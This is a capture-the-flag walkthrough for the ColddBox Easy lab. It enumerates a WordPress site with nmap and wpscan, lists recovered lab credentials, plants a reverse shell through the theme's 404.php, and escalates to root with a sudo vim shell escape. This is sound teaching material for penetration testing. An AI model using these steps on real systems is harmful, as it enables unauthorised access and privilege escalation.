# ColddBox Easy

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.76.41 -oG allPorts
```



```bash
nmap -sC -sV -p80,4512 -Pn 10.10.76.41 -oN targeted.txt

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP

```bash
nmap --script=http-enum -p80 10.10.76.41 -oN webScan.txt

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 4.1.31
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|_  /hidden/: Potentially interesting folder
```

```bash
whatweb http://10.10.76.41
```



```bash
wig http://10.10.76.41
```





### FUZZ








## Exploit

```bash
wpscan --url http://10.10.76.41 -e vp,u     
```





| User | Pass |
| --- | --- |
| c0ldd | 9876543210 |





```bash
https://www.revshells.com/
```





```bash
http://10.10.76.41/wp-content/themes/twentyfifteen/404.php
```



Nos ponemos en escucha con ncat





| user | pass|
|---|---|
| c0ldd | cybersecurity |




## Privilege Escalation

```bash
sudo -l
	(root) /usr/bin/vim
	(root) /bin/chmod
	(root) /usr/bin/ftp

sudo /usr/bin/vim -c ':!/bin/bash'
whoami
root
```



